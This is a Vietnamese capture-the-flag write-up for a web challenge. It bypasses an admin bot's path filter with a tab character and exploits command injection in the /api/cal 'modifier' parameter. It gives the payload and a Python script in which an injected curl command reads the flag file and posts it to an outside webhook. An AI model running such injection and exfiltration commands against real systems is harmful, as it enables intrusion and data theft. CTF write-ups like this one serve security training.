






start chall lên mình nhận được 1 feature con bot admin sẽ view url mà chúng ta cấp



tuy nhiên nó không trả về respone, mình view source

dùng `puppeteer` để view tất cả url được nhập vào 


tại `/visit` với method `POST` sẽ check xem trong `path` có chứa `cal` hay `%` hay không


tiếp tục qua `server.py`


tại route `/api/cal` mình focus vào dòng 48, sử dụng `subprocess` truyền vào parameter `modifier` mà không qua filter -> `Command injection`


Okey: tổng hợp lại chúng ta cần cho con BOT gọi đến `/api/cal` trên server và trigger CMD injection rồi fetch resp.text ra webhook

Trước tiên cần bypass check kí tự `/cal`, khá đơn giản chúng ta chỉ cần sử dụng `/t` đại diện cho khoảng trắng `tab`

payload: 
```
/api/ca\tl?modifier=-100;curl <webhook> -d $(cat flag*)
```

script lấy flag:
```
from requests import *

webhook = "https://webhook.site/5491ab4e-9332-4603-b5dd-0d1e3e6fb4e3"
url = "http://chal.competitivecyber.club:13336"

res = post(f'{url}/visit', data={"path":f"api/ca\tl?modifier=khiem; curl {webhook} -d $(cat flag*)"})
print(res.text)
```

qua webhook lụm flag 


FLAG: `CACI{1_l0v3_c0mm4nd_1nj3ct10n}`


